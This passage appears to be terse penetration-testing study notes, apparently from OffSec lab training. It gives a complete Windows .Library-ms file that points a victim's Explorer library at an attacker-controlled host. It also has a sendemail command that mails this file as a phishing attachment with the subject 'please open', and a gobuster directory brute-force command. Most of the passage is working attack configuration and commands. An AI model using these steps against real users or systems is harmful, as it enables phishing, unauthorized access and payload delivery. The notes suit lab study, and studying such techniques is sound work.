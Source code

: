 ```
    </searchConnectorDescriptionList>
</libraryDescription>
```

offsec version

isLibraryPinned -> is library pinned in windows explorer

iconReference -> which icon to use (imageres.dll, -1003 is an img icon)

folderType -> use Documents guid

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

<name>@windows.storage.dll,-34582</name>
<version>6</version>

<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>

<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>

<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>

</libraryDescription>
```

easy way to send email


```
sendemail -f test@supermagicorg.com -xu test@supermagicorg.com -xp test -t dave.wizard@supermagicorg.com -u please open -m hello -s 192.168.210.199 -a config.Library-ms
```

don't forget to search txt,pdf files in gobuster

```
gobuster dir -u http://192.168.210.199 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x pdf,txt
```


## Online Exploit Resources
